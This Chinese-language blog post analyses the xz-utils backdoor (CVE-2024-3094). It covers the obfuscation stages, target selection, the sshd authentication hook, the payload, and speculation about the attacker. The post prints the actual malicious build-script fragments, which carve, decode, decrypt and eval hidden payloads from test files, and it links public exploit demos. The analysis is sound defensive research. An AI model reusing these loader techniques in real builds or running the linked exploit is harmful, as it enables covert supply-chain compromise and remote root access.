从混淆分析的角度来看，该脚本存在三个有趣的片段，其中两个仅出现在5.6.1版本中。

#### 扩展 机制

片段1

```sh
vs=`grep -broaF &#39;~!:_ W&#39; $srcdir/tests/files/ 2&gt;/dev/null`
if test &#34;x$vs&#34; != &#34;x&#34; &gt; /dev/null 2&gt;&amp;1;then
f1=`echo $vs | cut -d: -f1`
if test &#34;x$f1&#34; != &#34;x&#34; &gt; /dev/null 2&gt;&amp;1;then
start=`expr $(echo $vs | cut -d: -f2) &#43; 7`
ve=`grep -broaF &#39;|_!{ -&#39; $srcdir/tests/files/ 2&gt;/dev/null`
if test &#34;x$ve&#34; != &#34;x&#34; &gt; /dev/null 2&gt;&amp;1;then
f2=`echo $ve | cut -d: -f1`
if test &#34;x$f2&#34; != &#34;x&#34; &gt; /dev/null 2&gt;&amp;1;then
[ ! &#34;x$f2&#34; = &#34;x$f1&#34; ] &amp;&amp; exit 0
[ ! -f $f1 ] &amp;&amp; exit 0
end=`expr $(echo $ve | cut -d: -f2) - $start`
eval `cat $f1 | tail -c &#43;${start} | head -c &#43;${end} | tr &#34;\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131&#34; &#34;\0-\377&#34; | xz -F raw --lzma2 -dc`
fi
fi
fi
fi
```

片段3：

```sh
vs=`grep -broaF &#39;jV!.^%&#39; $top_srcdir/tests/files/ 2&gt;/dev/null`
if test &#34;x$vs&#34; != &#34;x&#34; &gt; /dev/null 2&gt;&amp;1;then
f1=`echo $vs | cut -d: -f1`
if test &#34;x$f1&#34; != &#34;x&#34; &gt; /dev/null 2&gt;&amp;1;then
start=`expr $(echo $vs | cut -d: -f2) &#43; 7`
ve=`grep -broaF &#39;%.R.1Z&#39; $top_srcdir/tests/files/ 2&gt;/dev/null`
if test &#34;x$ve&#34; != &#34;x&#34; &gt; /dev/null 2&gt;&amp;1;then
f2=`echo $ve | cut -d: -f1`
if test &#34;x$f2&#34; != &#34;x&#34; &gt; /dev/null 2&gt;&amp;1;then
[ ! &#34;x$f2&#34; = &#34;x$f1&#34; ] &amp;&amp; exit 0
[ ! -f $f1 ] &amp;&amp; exit 0
end=`expr $(echo $ve | cut -d: -f2) - $start`
eval `cat $f1 | tail -c &#43;${start} | head -c &#43;${end} | tr &#34;\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131&#34; &#34;\0-\377&#34; | xz -F raw --lzma2 -dc`
fi
fi
fi
fi
```

这两个片段几乎相同，所以可以一起处理它们。



1. 首先，他们尝试在tests/files/目录中查找（grep -broaF）两个文件，其中包含以下字节（签名）

   ```sh
   Fragment 1: &#34;~!:_ W&#34; and &#34;|_!{ -&#34;
   Fragment 3: &#34;jV!.^%&#34; and &#34;%.R.1Z&#34;
   # 注：grep 实际输出格式如下：file_name:offset:signature。例如：
   $ grep -broaF &#34;XYZ&#34;
   testfile:9:XYZ
   ```

2. 如果找到该文件，提取每个文件的偏移量（cut -d: -f2，以 : 为分隔符，采用第二个字段），第一个偏移量 &#43; 7 保存为 $start，第二个文件的第二个偏移量 - $start 保存作为 $end.

3. 一旦脚本有了 $start 和 $end 偏移量，它就会切出文件中具有第一个签名的部分 `cat $f1 | tail -c &#43;${start} | head -c &#43;${end}`

4. 接下来先是替换密码（使用 5.6.0 版本密钥）：`tr &#34;\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131&#34; &#34;\0-\377&#34;`

5. 然后解压数据以便立即执行：

   ````
   eval `... | xz -F raw --lzma2 -dc`
   ````

事实上，在现有的5.6.0和5.6.1的TAR存档中都没发现任何带有签名的文件，看上去像是一个待使用的“扩展插件”系统，允许未来添加脚本以在该阶段的上下文中运行，而无需修改原始的负载文件。毕竟，不断地修改 bad 和 good 测试文件很可疑。

#### 目标选择

此脚本会检查各种条件，例如计算机的体系结构。

```sh
if ! (echo &#34;$build&#34; | grep -Eq &#34;^x86_64&#34; &gt; /dev/null 2&gt;&amp;1) &amp;&amp; (echo &#34;$build&#34; | grep -Eq &#34;linux-gnu$&#34; &gt; /dev/null 2&gt;&amp;1);then
```

- 如果 amd64/x86_64 是构建的目标

- 如果目标使用名称 `linux-gnu` （主要是检查是否使用了 glibc）

它还会检查正在使用的工具链：

```sh
if test &#34;x$GCC&#34; != &#39;xyes&#39; &gt; /dev/null 2&gt;&amp;1;then
exit 0
fi
if test &#34;x$CC&#34; != &#39;xgcc&#39; &gt; /dev/null 2&gt;&amp;1;then
exit 0
fi
LDv=$LD&#34; -v&#34;
if ! $LDv 2&gt;&amp;1 | grep -qs &#39;GNU ld&#39; &gt; /dev/null 2&gt;&amp;1;then
exit 0
```

如果正在尝试复现构建 Debian 或 Red Hat 软件包：

```sh
if test -f &#34;$srcdir/debian/rules&#34; || test &#34;x$RPM_ARCH&#34; = &#34;xx86_64&#34;;then
```

因此，这种攻击似乎是针对使用 Debian 或 Red Hat 派生发行版运行 glibc 的 amd64 系统。

其他系统目前可能容易受到攻击，但没有明确的证据。

#### 后门提取

正如 Andres 在原始电子邮件中指出的那样，在某些时候会提取 .o 文件并将其编织到编译/链接过程中。由以下代码负责

```sh
N=0
W=88664
else
N=88664
W=0
fi
xz -dc $top_srcdir/tests/files/$p | eval $i | LC_ALL=C sed &#34;s/\(.\)/\1\n/g&#34; | LC_ALL=C awk &#39;BEGIN{FS=&#34;\n&#34;;RS=&#34;\n&#34;;ORS=&#34;&#34;;m=256;for(i=0;i&lt;m;i&#43;&#43;){t[sprintf(&#34;x%c&#34;,i)]=i;c[i]=((i*7)&#43;5)%m;}i=0;j=0;for(l=0;l&lt;8192;l&#43;&#43;){i=(i&#43;1)%m;a=c[i];j=(j&#43;a)%m;c[i]=c[j];c[j]=a;}}{v=t[&#34;x&#34; (NF&lt;1?RS:$1)];i=(i&#43;1)%m;a=c[i];j=(j&#43;a)%m;b=c[j];c[i]=b;c[j]=a;k=c[(a&#43;b)%m];printf &#34;%c&#34;,(v&#43;k)%m}&#39; | xz -dc --single-stream | ((head -c &#43;$N &gt; /dev/null 2&gt;&amp;1) &amp;&amp; head -c &#43;$W) &gt; liblzma_la-crc64-fast.o || true
```

版本之间的差异归结为有损压缩(compressed-but-somewhat-mangled)的有效负载的大小，在 5.6.0 中是 88792，在 5.6.1 中是 88664，AWK 脚本中的一个值发生了变化，我们稍后会介绍这一点。

实际上某些步骤与Stage 1相同（它的二进制 payload 在“good”文件数据中先前被忽略的部分中）。

1. 与Stage 1 中的步骤 2 相同，用xz解压 tests/files/good-large_compressed.lzma 文件

2. 与Stage 1 中的步骤 3 相同，即“很多 head 函数”调用。

3. 这有不同了。首先之前的输出被 sed 命令破坏了。`LC_ALL=C sed &#34;s/\(.\)/\1\n/g&#34;` 其作用实际上是在每个字节后面放置一个换行符（换行符本身除外）。因此，我们最终在输出中得到的是每行字节的情况（这里有很多混合“文本”和“二进制”文件）。这正是下一步所需要的。

4. 下一步是 AWK 脚本，它对输入流进行 [RC4...ish](https://en.wikipedia.org/wiki/RC4) 描述。

   ```sh
   BEGIN {  # Initialization part.
     FS = &#34;\n&#34;;  # Some AWK settings.
     RS = &#34;\n&#34;;
     ORS = &#34;&#34;;
     m = 256;
     for(i=0;i&lt;m;i&#43;&#43;) {
       t[sprintf(&#34;x%key&#34;, i)] = i;
       key[i] = ((i * 7) &#43; 5) % m;  # Creating the cipher key.
     }
     i=0;  # Skipping 4096 first bytes of the output PRNG stream.
     j=0;  # ↑ it&#39;s a typical RC4 thing to do.
     for(l = 0; l &lt; 4096; l&#43;&#43;) {  # 5.6.1 uses 8192 instead.
       i = (i &#43; 1) % m;
       a = key[i];
       j = (j &#43; a) % m;
       key[i] = key[j];
       key[j] = a;
     }
   }
   
   {  # Decription part.
     # Getting the next byte.
     v = t[&#34;x&#34; (NF &lt; 1 ? RS : $1)];
   
     # Iterating the RC4 PRNG.
     i = (i &#43; 1) % m;
     a = key[i];
     j = (j &#43; a) % m;
     b = key[j];
     key[i] = b;
     key[j] = a;
     k = key[(a &#43; b) % m];
   
     # As pointed out by @nugxperience, RC4 originally XORs the encrypted byte
     # with the key, but here for some add is used instead (might be an AWK thing).
     printf &#34;%key&#34;, (v &#43; k) % m
   }
   ```

   

5. 输入被解密后，这一步进行解压：`xz -dc --single-stream` ；

6. 然后使用head技巧截取从 N (0) 到 W (~86KB) 的字节，并保存为 liblzma_la-crc64-fast.o ，这是最终的二进制后门。

   ```sh
   ((head -c &#43;$N &gt; /dev/null 2&gt;&amp;1) &amp;&amp; head -c &#43;$W) &gt; liblzma_la-crc64-fast.o
   ```

5.6.0 版本N为0，W为88792


### .o二进制分析

这块我不擅长，就不班门弄斧了。

关于.o二进制文件的分析，可以参考[这篇文章](https://gist.github.com/smx-smx/a6112d54777845d389bd7126d6e9f504)，文中对二进制文件中很多函数功能都有相应的推测，可以进行参考。


逆向后的项目，基于xz 5.6.1版本，可见：https://github.com/smx-smx/xzre，该项目是基于xz 5.6.1版本。

国内也有篇文章分析的很好：[XZ开源项目投毒事件深入解析](https://mp.weixin.qq.com/s/DFXa2DOb2VyxyFFWDRt2Cg)


该后门首先在 sshd 启动时替换 `crc32_resolve()` 和 `crc64_resolve`，然后试图从内存中解析符号表，并查找 `RSA_public_decrypt@....plt` 符号，并将其指向的地址替换为后门代码。

在 SSH 登录认证时，sshd 会调用该符号，并在服务器上执行攻击代码。


### 后门设计分析

此后门程序包含多个组件。在高层次上：

- 上游发布的发布压缩包与 GitHub 的代码不同。这在 C 项目中很常见，因此下游使用者不需要记住如何运行 autotools 和 autoconf。发布版中的压缩包版本 `build-to-host.m4` 与 GitHub 上的上游版本有很大不同。
- git 存储库中的 `tests/` 文件夹中也有精心设计的测试文件。这些文件位于以下提交中：
  - `tests/files/bad-3-corrupt_lzma2.xz` (cf44e4b7f5dfdbf8c78aef377c10f71e274f63c0, 74b138d2a6529f2c07729d7c77b1725a8e8b16f1)
  - `tests/files/good-large_compressed.lzma` (cf44e4b7f5dfdbf8c78aef377c10f71e274f63c0, 74b138d2a6529f2c07729d7c77b1725a8e8b16f1)
- 由 `build-to-host.m4` 调用的脚本解压缩此恶意测试数据，并使用它来修改生成过程。
- IFUNC 是 glibc 中允许间接函数调用的一种机制，用于执行 OpenSSH 身份验证例程的运行时挂钩/重定向。IFUNC 是一种通常用于合法事物的工具，但在这种情况下，它被用于此攻击路径。

通常，上游发布的 tarball 与 GitHub 中自动生成的 tarball 不同。在这些修改后的 tarball 中，包含一个恶意版本 `build-to-host.m4` ，用于在构建过程中执行脚本。


整起事件隐匿的很好，从用于存储payload的二进制测试文件，到文件内容雕刻、替换密码和 AWK 中实现的 RC4 变体，所有这些都只需使用标准命令行工具即可完成。

所有这一切都在 3 个执行阶段中进行，并通过“扩展”系统实现面向未来的事物，而不必再次更改二进制测试文件。


### payload 分析

如果上述后门条件得到满足，payload将运行并注入到源代码树中。以下是我所知道的主要内容：

- 如果正在运行的程序具有进程名称 `/usr/sbin/sshd` ，则payload将激活。
- 它也可能在其他场景中激活，甚至可能与 ssh 无关。
- 暂不清楚有效载荷的目的是做什么，正在调查。
- Vanilla 上游 OpenSSH 不受影响，除非其依赖项链接 `liblzma` 之一。
  - Lennart Poettering 曾提到它可能通过 pam-&gt;libselinux-&gt;liblzma 发生，也可能在其他情况下发生，但是......
  - libselinux 没有链接到 liblzma。事实证明，这种混淆是因为 Fedora 中一个旧的仅限下游的补丁和 RPM 规范中陈旧的依赖关系，这种依赖关系在删除后很长一段时间内仍然存在。
  - PAM 模块在进程 AFAIK 中加载得太晚，无法正常工作（另一个可能的例子是 `pam_fprintd` ）。Solar Designer 在 oss-security 上也提出了这个问题。
- payload被间接加载到 `sshd` 。 `sshd` 通常被 patch 以支持 systemd-notify，以便在 SSHD 运行时可以启动其他服务。 加载`liblzma`是因为它被 `libsystemd` 的其他部分所依赖，这不是systemd的错。大多数发行版使用的补丁都可以在这里找到：openssh/openssh-portable#375。
  - 更新：OpenSSH开发人员正在考虑添加systemd-notify协议的非库集成，这意味着发行版将不再支持 patch `libsystemd` 。
- 如果此payload加载到 openssh 的`sshd` 中，则该 `RSA_public_decrypt` 函数将被重定向到恶意实现中。这种恶意实现可用于绕过身份验证。
  - Filippo Valsorda 分享的[分析](https://bsky.app/profile/filippo.abyssdomain.expert/post/3kowjkx2njy2b)表明，攻击者必须提供一个由payload验证的密钥，然后将攻击者的输入传递给 `system()` ，从而提供远程代码执行 （RCE）。

关于更多Payload分析，可以关注些大佬们的进度和项目情况：

- Filippo Valsorda 的分析线程：https://bsky.app/profile/did:plc:x2nsupeeo52oznrmplwapppl/post/3kowjkx2njy2b
- 通过 @smx-smx （WIP） 进行 XZ 后门分析：https://gist.github.com/smx-smx/a6112d54777845d389bd7126d6e9f504
- modify_ssh_rsa_pubkey.py by @keeganyan - 脚本来触发受感染 `sshd` 的有效负载的更多部分
- xz-恶意软件https://github.com/karcherm/xz-malware
- xz-后门https://github.com/hamarituc/xz-backdoor

### xz bits

- Jia Tan 的 328c52da8a2bbb81307644efdb58db2c422d9ba7 提交在 CMake 检查中包含一个 `.` landlock 沙盒支持。这导致检查始终失败，因此没有检测到缺少支持。
  - `check_c_source_compiles` 有人提议对 CMake 进行强化（参见其他项目）。
- IFUNC 由 Hans Jensen 在 ee44863ae88e377a5df10db007ba9bfadde3d314 中为 crc64 引入。
  - Hans Jensen 后来继续要求 Debian 在 https://bugs.debian.org/1067708 中更新 xz-utils，但对于热心的用户来说，这是一件很常见的事情，所以它不一定是邪恶的。

###  人员分析

我暂时不在本文档中推测这个项目背后的人。执法部门将能够识别责任人。他们可能也在修补他们的系统。

xz-utils 有两个维护者：

- Lasse Collin （Larhzu） 从一开始就维护 xz（~2009 年），在此之前， `lzma-utils` .
- Jia Tan （JiaT75） 在过去 2-2.5 年内开始为 xz 做贡献，并在大约 1.5 年前获得了提交访问权限，然后获得了发布管理员权限。他于 2024 年 3 月 31 日被撤职，因为 Lasse 开始了他未来的长期工作。

分析人员Lasse 目前在这一切开始之前就开始了人员分析。他在 https://tukaani.org/xz-backdoor/ 上发布了更新，并正在与社区合作进行一步分析处理。请耐心等待他，因为他会加快速度并花时间仔细分析情况。


本次事件的主角是Jia Tan （JiaT75），根据他的名字，他希望人们相信他是亚洲人，特并且他的绝大多数提交都是 UTC&#43;08 时间戳。 然而，我更相信他实际上来自 UTC&#43;02/UTC&#43;03时区的某个地方，其中包括东欧（EET）、以色列（IST）等。他通常早上 9 点到下午 6 点工作（根据 EET 调整）。这比在周二晚上午夜和凌晨 1 点工作的人更合理（使用 UTC&#43;08）。

关于这些，详情可见：https://rheaeve.substack.com/p/xz-backdoor-times-damned-times-and


## 漏洞利用

github已有公开的[demo exp](https://github.com/amlweems/xzbot)，这个exp通过patch后门中的公钥为自己的私钥来验证漏洞的存在。

见 https://mp.weixin.qq.com/s/DFXa2DOb2VyxyFFWDRt2Cg 已有复现

&gt; 下载了debian官方编译的deb包。安装之后使用patch.py脚本手动patch。
&gt;
&gt; 
&gt;
&gt; 然后启动sshd进程，使其监听在2222端口。
&gt;
&gt; 
&gt;
&gt; 之后运行exploit，执行的命令为`id &gt; /tmp/.xz`。
&gt;
&gt; 
&gt;
&gt; 运行之后可以看到命令成功被执行，并且命令执行的权限为root。
&gt;
&gt; 


## 后续影响

有很多人讨论说很大可能是国家级的供应链攻击， XZ攻击的复杂程度和攻击模型流程都非常夸张

这是一起偶然发现的事件，那么还有多少事情未被发现。冰山之下还有多少？

推动了开源社区的反间谍类安全意识问题发现，很多开源社区近期都在筛查这种同类问题。

开源产品的维护，当整个产品基于一个过度劳累的人身上时，在没有任何财务或运营上的支持，很容易慢慢出现心理健康危机。

## 参考链接

- Andres Freund 邮件原文：https://www.openwall.com/lists/oss-security/2024/03/29/4
- 奇安信Cert https://mp.weixin.qq.com/s/F2k1bPmCuqwUAZkNiIFA-w
- Everything I Know About the Xz Backdoor:  https://boehs.org/node/everything-i-know-about-the-xz-backdoor
- xz 后门镜像地址 https://github.com/thesamesam/xz-archive
- [xz/liblzma: Bash-stage Obfuscation Explained](https://gynvael.coldwind.pl/?id=782) : https://gynvael.coldwind.pl/?lang=en&amp;id=782#stage2-ext
- FAQ on the xz-utils backdoor (CVE-2024-3094) https://gist.github.com/thesamesam/223949d5a074ebc3dce9ee78baad9e27
- XZ Backdoor Analysis：https://gist.github.com/smx-smx/a6112d54777845d389bd7126d6e9f504
- xzre：https://github.com/smx-smx/xzre
- XZ Backdoor: Times, damned times, and scams：https://rheaeve.substack.com/p/xz-backdoor-times-damned-times-and
- XZ开源项目投毒事件深入解析：https://mp.weixin.qq.com/s/DFXa2DOb2VyxyFFWDRt2Cg
- https://bsky.app/profile/filippo.abyssdomain.expert/post/3kowjkx2njy2b


---

> 作者: Xavier  
> URL: https://www.bthoughts.top/posts/xz-backdoor-analysis/  

